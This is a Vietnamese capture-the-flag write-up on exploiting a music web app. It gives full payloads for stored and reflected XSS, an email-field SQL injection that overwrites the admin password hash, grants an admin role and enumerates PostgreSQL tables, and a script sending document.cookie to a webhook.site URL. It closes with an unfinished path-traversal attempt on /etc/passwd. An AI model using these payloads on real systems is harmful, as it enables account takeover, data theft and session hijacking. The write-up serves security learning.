# Khai thác

## Bị lỗi XSS ở `username`
Thử tạo account có username là payload `<h1>lethimcook</h1>` và kiểm tra thử trong `/profile`, phát hiện có sự thay đổi, username xuống dòng thay vì nằm chung dòng như bình thường    
  

Thử tạo lại với username `<script>alert(1)</script>`. Thế là trang bị lỗi XSS ở trường username.  
  

## Trường email của user bị SQLi
### SQLi dẫn đến thay đổi thông tin người dùng khác
Khi thử với nháy đơn thì server báo lỗi. Vì đây là chức năng chỉnh sửa email nên có thể ứng dụng có thể sử dụng câu truy vấn là  `UPDATE users SET email={data} WHERE username={người dùng} AND id={id}`.  

Trong quá trình test, mình phát hiện rằng mình có thể thay đổi email của bản thân mình với payload `sqli@gmail.com'+WHERE+username='vuadosat1'--`  
  


Mình muốn test xem với SQLi này, mình có thể cập nhật thông tin trên db của user khác không, mình sẽ tạo thêm một user mới với username=`vuadosattest` và password=`1` và email=`1@gmail.com`  
  

Thử thay đổi email của user test trên với payload `testsql1@gmail.com' WHERE username='vuadosattest'--`  
**LƯU Ý** Mỗi test case cần đảm bảo email phải unique, nếu không, dù payload có chính xác thì vẫn báo lỗi

Vậy là có thể thay đổi credential của người khác, vậy sẽ ra sao nếu ta thay đổi password của admin. Các tên như `password, pass, passwd, password_hash` thường sử dụng để đặt tên cột cho mật khẩu. Trong trường hợp này sẽ là `password_hash`  
Vậy là password có sử dụng thuật toán băm, chúng ta phải tìm chính xác thuật toán thì mới có thể đăng nhập được.  
`MD5, SHA1` thường được sử dụng trong MySQL, chúng ta sẽ thử với những thuật toán này. Nhưng có vẻ khá khoai, thử xong thì đăng nhập báo server báo lỗi luôn  
   

Vậy sẽ ra sao, nếu ta gán password user admin bằng với password của user bình thường?
Mình sẽ tạo thêm tài khoản có `username=vuadosat2` và `password=2` để thử trong bước này  
Chúng ta thử với `JOIN` 
```
UPDATE users AS ad JOIN users AS self ON self.username="vuadosat" SET ad.password_hash=self.password_hash WHERE username="admin"
```

Tuy nhiên JOIN bị một vấn đề là ta phải thêm một command nữa ngăn cách bởi dấu `;`, và chương trình sẽ trả về lỗi nếu param có dấu `;`  
Chúng ta sẽ thử với SELECT lồng ghép. Sử dụng payload dưới, password user admin sẽ trở thành password của user `vuadosat2` do mình tạo với password là `2`
```
new_email=kakakaka@gmail.com',password_hash=(SELECT+password_hash+FROM+(SELECT+*+FROM+users)+AS+a+WHERE+username%3d'vuadosat2')+WHERE+username%3d'admin'+--
```

Sau khi gửi payload trên, chúng ta đã có thể đăng nhập admin với `password=2`  
  

Truy cập `/profile` của admin lấy flag  

**FLAG** CBJS{99fb83031ce9923c84392b4e92f956b5} 

### SQLi dẫn đến leo thang đặc quyền
Với lỗi này, mình có thể thay đổi trường role leo lên quyền admin với payload 
`new_email=hihihaha@gmail.com',role='admin'+WHERE+username='vuadosat1'--`  
  

## SQLi dẫn đến truy cập trái phép db
Với SELECT lồng ghép, mình có thể gán giá trị cho cột khác, cộng với việc username đang hiển thị ở trang `/profile`. Vậy sẽ ra sao nếu mình SELECT và gán kết quả vào cột username của mình. Trước tiên, cần biết id user hiện tại để tiện thay đổi payload, chúng ta gán user `vuadosat1` có id là `160`, để từ đó, ta thay đổi `username` dựa trên tìm kiếm `id` thay vì `username`, do username sẽ thay đổi liên tục khi thêm payload.  
  

Thử kiểm tra version db với payload  `hihihahaa@gmail.com',username=(SELECT+version())+WHERE+id='160'--`. Ta lấy được thông tin `PostgreSQL 17.7 (Debian 17.7-3.pgdg13+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 14.2.0-19) 14.2.0, 64-bit`
  

Trong Postgre, ta sử dụng `SELECT current_database()` để biết tên database đang sử dụng, payload `new_email=hihihaha@gmail.com',username=(SELECT+current_database())+WHERE+id=160--`. Tên database là `pymic`  
  

Lấy được tên các bảng `users,favorites,music,premium_music` trong csdl với payload `hihihahaa@gmail.com',username=(SELECT+string_agg(table_name,',')+FROM+information_schema.tables+WHERE+table_schema+%3d+'public')+WHERE+id=160--`  
  

Payload tìm các cột trong bảng. VÍ DỤ bảng `music` `hihihahaa@gmail.com',username=(SELECT+string_agg(column_name,',')+FROM+information_schema.columns+WHERE+table_schema+%3d+'public'+AND+table_name%3d'music')+WHERE+id=160--`  
- users : `id,username,email,password_hash,role,is_premium,created_at`
- favorites : `user_id,music_id,created_at`
- music : `id,title,artist,cover_image_path,audio_file_path,is_premium,created_at,updated_at`
- premium_music : `id,title,artist`


## Lỗi XSS trong tại `\profile?success=`
Nhận thấy nội dung "Email updated successfully" dựa trên param success  
  

Thử thêm script vào param, phát hiện trang web bị lỗi XSS  
  

Như vậy là chúng ta đã xác định lỗi XSS với GET param. Dựa vào đó, ta có thể viết một đoạn script để lấy cookie của nạn nhân bằng `fetch`   
Thêm payload vào sau param `successs`
```
<script>fetch(`https://webhook.site/9280fdc8-b60f-4699-96ba-b1cdb5278797?$a={document.cookie}`)</script>
```

Lấy cookie của nạn nhân trên webhook, thay vào cookie trình duyệt và lấy được flag trên trang `profile`  của nạn nhân  
  

**FLAG** CBJS{df764cbdea00d65edcd07bb9953ad2b7}  

## Trang admin
### Untrusted data ở `/admin/music/upload`
- title
- artist
- cover_image
- audio_file
- file_name

### Untrusted data ở `/admin/music/{id}/update`
- id
- new_title

## Khai thác
### Endpoint trả nội dung audio file
Có thể trong server có xử lý đường dẫn để đọc nội dung file  
  

Vậy sẽ ra sao nếu mình thêm `../` và `/etc/passwd` để đọc nội dung file
Thử với `filename='../../etc/passwd'` Không thành công, có thể server kiểm tra đuôi file trước khi tải lên  
  

Tuy nhiên, ở phần trên, trong khi khai thác SQLi, mình phát hiện bảng `music` có một cột tên là `audio_file_path`. Vậy sẽ ra sao nếu mình thay đổi file path của bài nhạc thành một file trên server
2 endpoint `/admin/music/upload` và `/admin/music/{id}/update` rất có thể sử dụng truy vấn `INSERT INTO` và `UPDATE` để thêm và cập nhật bài hát.
Thử thêm các ký tự đặc biệt khi upload với endpoint `/admin/music/upload` đều không có lỗi, thậm chí server upload đầy đủ các ký tự này.  
